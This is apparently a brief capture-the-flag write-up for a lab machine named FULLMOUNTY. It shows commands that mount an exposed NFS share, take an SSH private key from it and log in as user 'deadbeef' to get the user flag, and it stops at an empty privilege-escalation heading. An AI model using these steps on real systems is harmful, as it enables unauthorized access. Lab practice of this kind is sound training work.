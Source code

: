 ### FULLMOUNTY

#### Nmap scan

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/dd23e073-c340-45ae-a2e2-dd28af07eaed)

enumerating other pports gives nothing

so let's move to nfs

so let's list the shares and mount it

```mkdir /tmp/mount```
```showmount -e 10.150.150.134```
```sudo mount -t nfs -o vers=3 10.150.150.134:/srv/exportnfs /tmp/mount/ -o nolock```

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/23fda0de-c7d7-47fa-adc2-f7896d027f0f)

we have an ssh private key which cn be used to ssh into the box

reading the public key we have a user ```deadbeef```

so ```ssh -i id_rsa deadbeef@10.150.150.134```
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/c9e63b9b-276b-46c1-ac5c-4594ec4a7c93)

so we have the user flag.

#### Privilege escalation







